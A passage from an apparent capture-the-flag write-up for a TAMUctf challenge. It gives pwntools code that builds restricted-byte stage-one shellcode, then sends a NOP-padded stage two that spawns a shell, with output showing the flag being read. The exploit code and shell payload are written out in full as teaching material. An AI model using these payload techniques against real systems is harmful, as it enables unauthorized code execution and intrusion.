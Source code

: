 ```python  
def zero_rax():  
   # sub rax, rax  
   # 0:   48 29 c0                sub    rax, rax'  
   # 0xc02948-0x0f0fba-0xf0f0f*11-0xb0f0f-0x0f0f*6-0x90f-0x10f-0xf*6+8  
   rax_zero = asm('add eax,0x0f0f0f')*11  
   rax_zero += asm('add eax,0xb0f0f')  
   rax_zero += asm('add eax, 0x0f0f')*6  
   rax_zero += asm('add eax, 0x90f')  
   rax_zero += asm('add eax, 0x30f')  
   rax_zero += asm('add al, 0x0f')*6  
   rax_zero += asm('add al, 0x8')  
   rax_zero += asm('add dword ptr [rip], eax')  
   rax_zero += b'\x00'*3  
log.info('> sub (rax, rax) shellcode : (%i bytes)' % len(rax_zero))  
   return rax_zero  
```

The only thing we need to do next is to send our stage1 shellcode and then
read our stage2 shellcode. Note, our second stage starts writing at the
beginning our the stage1 shellcode, so we'll need to ``nop`` out the beginning
until we reach the next instruction to execute. For this reason, we pad the
front of our second stage with ``stage2 =
asm(shellcraft.nop())*(len(stage1)+0x8*5)``

```python  
log.info('Building Stage1 Shellcode.')  
stage1 = pop_rsi()  
stage1 += zero_edi()  
stage1 += big_edx()  
stage1 += zero_rax()  
stage1 += asm('syscall')

log.info('Throwing Stage 1 Shellcode (%i bytes)' % len(stage1))  
p.sendline(stage1)  
pause()

stage2 = asm(shellcraft.nop())*(len(stage1)+0x8*5)  
stage2 += asm(shellcraft.sh())  
log.info('Throwing Stage 2 Shellcode (%i bytes)' % len(stage2))  
p.sendline(stage2)

p.interactive()  
```

Testing our script against the remote server, we are excited to see it works
and get the flag.

```  
[+] Opening connection to tamuctf.com on port 443: Done  
[*] Building Stage1 Shellcode.  
[*] > (pop rsi)*3 shellcode : (35 bytes)  
[*] > (mov edi, 0x0) shellcode : (25 bytes)  
[*] > (mov edx, 0x1fb) shellcode : (48 bytes)  
[*] > (sub rax, rax) shellcode : (123 bytes)  
[*] Throwing Stage 1 Shellcode (233 bytes)  
[*] Paused (press any to continue)  
[*] Throwing Stage 2 Shellcode (321 bytes)  
[*] Switching to interactive mode  
$ cat flag.txt  
gigem{Sh3llc0d1ng_1s_FuN}  
```
